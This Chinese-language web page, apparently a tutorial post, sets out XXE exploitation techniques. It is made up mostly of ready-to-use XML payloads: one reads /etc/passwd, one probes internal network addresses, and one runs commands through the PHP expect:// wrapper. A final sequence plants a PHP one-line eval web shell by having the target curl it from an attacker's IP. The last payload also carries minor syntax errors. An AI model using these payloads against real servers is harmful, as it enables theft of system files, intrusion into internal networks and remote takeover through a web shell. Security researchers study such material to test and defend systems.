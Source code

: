 02

★★ 利用思路 ★★

  
  
  

     **0X01** **直接读取系统文件**

    使用如下类似Payload进行读取系统敏感文件  

  *   *   *   *   * 

    
    
    <?xml version = "1.0"?><!DOCTYPE ANY [    <!ENTITY xxe SYSTEM "file:///etc/passwd">]><x>&xxe;</x>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181318.png)

    

 **    0X02 ** **内网探针或攻击内网应用（触发漏洞地址）**

    使用如下类似Payload获取内网系统敏感文件

  *   *   *   *   *   *   *   * 

    
    
    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE cnc [    <!ELEMENT cnc ANY >    <!ENTITY xxe SYSTEM "http://IP/index.txt" >]><x>&xxe;</x>  
    #IP为内网地址或域名

 **    0X03 ** **借助expect扩展执行系统命令**

    (1)使用如下类似Payload获取系统敏感文件

  *   *   *   *   * 

    
    
    <?xml version = "1.0"?><!DOCTYPE ANY [    <!ENTITY xxe SYSTEM "expect://id" >]><x>&xxe;</x>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181319.png)

     (2)部署Web服务器，达到Getshell的方法。

     首先，准备好poc.php，并写入一句话马，参考如下：

  * 

    
    
    <?php echo('<?php eval($_POST[‘2023’]);?>');?>

     然后，利用XXE执行下载命令，参考如下：

  *   *   *   *   *   * 

    
    
    <?xml version="1.0" version="UTF-8"?>        <!DOCTYPE title[        <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'攻击机ip/poc.php'">        ]>  
            <config><title>&xxe;</title></config

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181320.png)

